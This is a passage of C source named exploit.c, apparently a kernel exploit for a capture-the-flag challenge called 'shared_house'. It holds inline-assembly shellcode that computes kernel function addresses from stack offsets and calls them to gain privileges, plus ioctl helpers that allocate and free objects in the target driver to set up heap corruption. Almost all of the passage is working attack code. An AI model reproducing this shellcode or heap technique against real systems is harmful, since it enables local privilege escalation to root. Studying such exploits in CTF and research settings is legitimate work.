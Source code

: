 ```exploit.c
}

static void shellcode(void){
  asm(
    "xor rdi, rdi\n"
    "mov rbx, QWORD PTR [rsp+0x50]\n"
    "sub rbx, 0x244566\n"
    "mov rcx, rbx\n"
    "call rcx\n"
    "mov rdi, rax\n"
    "sub rbx, 0x470\n"
    "call rbx\n"
    "add rsp, 0x20\n"
    "pop rbx\n"
    "pop r12\n"
    "pop r13\n"
    "pop r14\n"
    "pop r15\n"
    "pop rbp\n"
    "ret\n"
  );
}
// (END utils)

// (shared_house)
#define SH_ALLOC  0xC12ED001
#define SH_FREE   0xC12ED002
#define SH_WRITE  0xC12ED003
#define SH_READ   0xC12ED004

#define FAIL1     0xffffffffffffffa
#define FAIL2     0xfffffffffffffff

struct query{
  ulong size;
  char *buf;
};

#define INF 1<<31
int shfd;
int statfd;
uint current_size = INF;


void _alloc(uint size){
  printf("[+] alloc: %x\n", size);
  assert(size <= 0x80);
  struct query q = {
    .size = size
  };
  int tmp = ioctl(shfd, SH_ALLOC, &q);
  assert(tmp!=FAIL1 && tmp!=FAIL2);
  current_size = size;
}

void _free(void){
  printf("[+] free\n");
  assert(current_size != INF);
  struct query q = {
  };
  int tmp = ioctl(shfd, SH_FREE, &q);
  assert(tmp!=FAIL1 && tmp!=FAIL2);
  current_size = INF;
```